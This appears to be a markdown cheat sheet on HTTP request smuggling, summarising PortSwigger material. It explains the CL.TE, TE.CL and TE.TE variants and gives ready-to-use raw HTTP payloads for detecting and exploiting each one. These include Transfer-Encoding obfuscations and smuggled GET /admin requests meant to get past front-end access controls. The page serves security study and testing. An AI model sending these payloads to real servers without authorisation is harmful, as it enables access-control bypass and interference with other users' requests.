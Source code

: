# HTTP request smuggling

Request smuggling attacks involve placing both the Content-Length header and the Transfer-Encoding header into a single HTTP request and manipulating these so that the front-end and back-end servers process the request differently. The exact way in which this is done depends on the behavior of the two servers:

- **CL.TE**: the front-end server uses the Content-Length header and the back-end server uses the Transfer-Encoding header.
- **TE.CL**: the front-end server uses the Transfer-Encoding header and the back-end server uses the Content-Length header.
- **TE.TE**: the front-end and back-end servers both support the Transfer-Encoding header, but one of the servers can be induced not to process it by obfuscating the header in some way.

**Table of Contents:**
- [HTTP request smuggling](#http-request-smuggling)
- [Finding HTTP request smuggling vulnerabilities](#finding-http-request-smuggling-vulnerabilities)
  - [Finding HTTP request smuggling vulnerabilities using timing techniques](#finding-http-request-smuggling-vulnerabilities-using-timing-techniques)
    - [Finding CL.TE vulnerabilities](#finding-clte-vulnerabilities)
    - [Finding TE.CL vulnerabilities](#finding-tecl-vulnerabilities)
  - [Confirming HTTP request smuggling vulnerabilities using differential responses](#confirming-http-request-smuggling-vulnerabilities-using-differential-responses)
- [Exploit the vulnerability](#exploit-the-vulnerability)
  - [Exploiting CL.TE vulnerabilities](#exploiting-clte-vulnerabilities)
  - [Exploiting TE.CL vulnerabilities](#exploiting-tecl-vulnerabilities)
  - [TE.TE behavior: obfuscating the TE header](#tete-behavior-obfuscating-the-te-header)
  - [Exploiting HTTP request smuggling to bypass front-end security controls](#exploiting-http-request-smuggling-to-bypass-front-end-security-controls)
    - [Exploiting CL.TE](#exploiting-clte)
    - [Exploiting TE.CL](#exploiting-tecl)
- [Source](#source)

# Finding HTTP request smuggling vulnerabilities

## Finding HTTP request smuggling vulnerabilities using timing techniques

### Finding CL.TE vulnerabilities

The **front-end server** uses the `Content-Length` header, it will forward only part of this request, omitting the X. The **back-end server** uses the `Transfer-Encoding` header, processes the first chunk, and then waits for the next chunk to arrive. This will cause an observable time delay.

```http
POST / HTTP/1.1
Host: HOST_NAME
Connection: keep-alive
Transfer-Encoding: chunked
Content-Type: application/x-www-form-urlencoded
Content-Length: 4

1
A
X
```

### Finding TE.CL vulnerabilities

The **front-end server** uses the `Transfer-Encoding` header, it will forward only part of this request, omitting the X. The **back-end server** uses the `Content-Length` header, expects more content in the message body, and waits for the remaining content to arrive. This will cause an observable time delay.

```http
POST / HTTP/1.1
Host: HOST_NAME
Connection: keep-alive
Transfer-Encoding: chunked
Content-Type: application/x-www-form-urlencoded
Content-Length: 6

0

X
```

## Confirming HTTP request smuggling vulnerabilities using differential responses

his involves sending two requests to the application in quick succession:

- An "attack" request that is designed to interfere with the processing of the next request.
- A "normal" request.

If the response to the normal request contains the expected interference, then the vulnerability is confirmed

# Exploit the vulnerability

## Exploiting CL.TE vulnerabilities

- front-end server uses the `Content-Length` header
- back-end server uses the `Transfer-Encoding` header

```http
POST / HTTP/1.1
Host: HOST_NAME
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 66
Transfer-Encoding: chunked

0


POST / HTTP/1.1
Host: HOST_NAME
Content-Length: 6

test=1
```

## Exploiting TE.CL vulnerabilities

- front-end server uses the `Transfer-Encoding` header
- back-end server uses the `Content-Length` header

```http
POST / HTTP/1.1
Host: HOST_NAME
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

3d                           # <---  Value in Hex !!!
POST / HTTP/1.1
Host: HOST_NAME
Content-Length: 6

test=1
0


```

## TE.TE behavior: obfuscating the TE header

front-end and back-end servers both support the `Transfer-Encoding` header

Example of obfuscate the Transfer-Encoding header:

```http
Transfer-Encoding: xchunked
```

```http
Transfer-Encoding : chunked
```

```http
Transfer-Encoding: chunked
Transfer-Encoding: x
```

```http
Transfer-Encoding
: chunked
```

Request example:

```http
POST / HTTP/1.1
Host: HOST_NAME
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked
Transfer-Encoding: x

3d                           # <---  Value in Hex !!!
POST / HTTP/1.1
Host: HOST_NAME
Content-Length: 6

test=1
0


```

## Exploiting HTTP request smuggling to bypass front-end security controls

### Exploiting CL.TE

```http
POST / HTTP/1.1
Host: HOST_NAME
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 80
Transfer-Encoding: chunked

0


GET /admin HTTP/1.1
Host: localhost
X-Ignore: X
Content-Length: 10

x=                              # <---  To ignore the real request 
```

### Exploiting TE.CL

```http
POST / HTTP/1.1
Host: HOST_NAME
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

6d                           # <---  Value in Hex !!!
GET /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

test=1
0


```

# Source 

- <https://portswigger.net/web-security/request-smuggling>
- <https://www.neuralegion.com/blog/http-request-smuggling-hrs/>
